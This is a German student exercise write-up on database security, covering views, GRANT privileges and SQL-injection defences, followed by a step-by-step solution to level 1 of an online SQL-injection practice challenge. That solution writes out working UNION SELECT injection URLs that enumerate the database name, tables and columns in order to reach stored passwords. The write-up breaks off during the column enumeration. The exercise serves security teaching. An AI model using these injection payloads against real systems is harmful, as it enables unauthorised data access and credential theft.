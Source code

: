 # Exercises DS : Datensicherheit

[ILIAS Dokument](https://elearning.hslu.ch/ilias/goto.php?target=file_3706953_download)

Gruppe 04 - Timo Furrer, David Staub, Dominik Waldispühl

## 1. Selbststudium

### Was heisst Datensicherheit?

> Als Datensicherheit oder globaler noch Informationssicherheit bezeichnet man die Eigenschaften von IT-Systemen die die Vertraulichkeit, Verfügbarkeit und die Integrität der Informationen sicherstellen. Die Informationen werden dabei eingeschränkt (Vertraulichkeit) überprüfbar gemacht (Integrität) und mehrfach abgespeichert (Verfügbarkeit).

Quelle : https://www.mastertools.ch/blog/posts/2013/september/datensicherheit-vs-datenschutz/

### Welche Rolle spielen Sichten für die Datensicherheit?

Über die Sichten (engl. "Views") können für Verschiedene Nutzergruppen, respektive Nutzer, seperate Zugriffsberechtigungen auf die Daten gegeben werden. Ein Datenanalyst benötigt zum Beispiel lediglich nicht-personenbezogene Daten, somit kann die Tabelle mit den sensitiven Daten ausgeblendet werden in der View. Für einen Buchhalter sind aber genau diese Informationen am wichtigstens, deswegen kann ihm eine andere View zugeteilt werden, mit unterschiedlichen Rechten.

### Was heisst Grant? Was heisst Grant Option?

"Grant", zu Deutsch "gewähren", ist ein Keyword, mit welchem man Nutzern gewisse Berechtigungen auf eine Tabelle oder View zuweisen oder entfernen kann.

Wenn dem Keyword "Grant" noch das Keyword "Option" hinzugefügt wird, kann man die Rechtevergabe für das spezifische Privleg weiterreichen. Somit kann der neu gewährte User ebenfalls dieses Privileg an weitere Nutzer gewähren.

### Was ist SQL-Injection? Wie schützt man sich davor?

Bei SQL-Injection handelt es sich um eine gewollte Injektion von Code/Scripts bei Eingabemasken, um Daten zu verändern/löschen/erstellen. Typischerweise wird hier gewollt der Text der Eingabemaske "beendet" um danach SQL Statements zu schreiben, welche dann Daten herausholen, auf der Datenbank löschen oder verändert werden.

Da der Eingabetext potenziell immer ausführbaren SQL-Code enthalten könnte, sollte man die SQL-Statement-Generierung bewusst im Vorhinein kompilieren, und dann den Eingabetext als Parameter einfügen. Dies geht auf der Client-Seite mit "Prepared Statements" und auf der DB-Server-Seite mit "Stored Procedures".

## 2. Views und Grants

-> Gegeben ist die Ausgangslage in der Beispieldatenbank Uni auf ihrem lokalen MySQL Server. Die Professoren dürfen jeweils nur die Vorlesungen verändern (update, delete, insert), die von Kollegen mit dem gleichen Rang durchgeführt (gelesenVon) werden. Alle Professoren dürfen die Vorlesungen der Kollegen mit gleichem Rang abfragen (select). Zudem dürfen Professoren mit Rang C4 die Vorlesungen der Kollegen mit Rang C3 abfragen, aber nicht umgekehrt.



### Erstellen Sie pro Professor ein Benutzer mit gleichem Benutzernamen. Wählen Sie als Passwort ‚@‘ plus den Namen.



### Erstellen Sie zwei (änderbare) Sichten (updateable views), zusammen mit den entsprechenden Rechtevergaben, welche diese Anforderungen erfüllen:

* Alle Professoren mit Rang C4 sollen das Recht SELECT, INSERT, UPDATE und DELETE auf die View view_c4 kriegen.
* Zudem sollen Professoren mit Rang C4 das Recht SELECT auf die View view_c3 erhalten.
* Alle Professoren mit Rang C3 sollen das Recht SELECT, INSERT, UPDATE und DELETE auf die View view_c3 kriegen.

## 3. SQL Injection

-> Lösen Sie das Level 1 des SQL-Injection Hackits von gehaxelt: http://hackit.gehaxelt.in

Dokumentieren Sie Ihr Vorgehen und ihre Lösung möglichst genau und nachvollziehbar.

### Dokumentation der Lösung

Beim starten des ersten Levels wird im unteren Bereich der Fehler ` Fehler: Parameter 'id' ist nicht gesetzt. ` ausgegeben. Dies deuted darauf hin, dass in der URL der Parameter `id` fehlt. 

Sobald man den Parameter in die URL einfügt, kommt der nächste Hinweis. Zahlen von 1-3 ergeben verschiedene Usernamen
>`http://hackit.gehaxelt.in/sqli/level1.php?id=1`

* (1) Der Username lautet: adminer 
* (2) Der Username lautet: rooter 
* (3) Der Username lautet: test 

Über einen UNION SELECT wird dann probiert herauszufinden wieviele Spalten die Tabelle hat, aus welcher die Benutzer gelesen werden. Für dies musste die Spaltenanzahl stetig erhöht werden und die AND Bedingung muss falsch sein (in diesem fall 1=5 was false ist). Dann 

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,2,3,4,5`

>  Der Username lautet: 2 

Jetzt weiss man dass die Spaltenanzahl 5 ist und dass man beim UNION SELECT die 2 durch andere Funktionen ersetzen kann, um dann mehr Infos zu erhalten, welche dann ausgegeben werden. Ziel wäre es jetzt, an den Tabellennamen von den Benutzern zu kommen, um das Passwort auslesen zu können. Um an das Schema heranzukommen, benötigen wir den Namen der DB, dazu versuchen wir folgendes:

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,database(),3,4,5`

>  Der Username lautet: level_1_jkjashd 

Den Datenbanknamen haben wir jetzt, dann kann das Schema ausgelesen werden:

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,table_name,3,4,5 from information_schema.tables where table_schema='level_1_jkjashd'`

> Der Username lautet: user 

Jetzt muss die Column herausgefunden werden:

`http://hackit.gehaxelt.in/sqli/level1.php?id=1 AND 1=5 UNION SELECT 1,column_name,3,4,5 from information_schema.columns where table_schema='level_1_jkjashd' and table_name='user' LIMIT 0,1--`
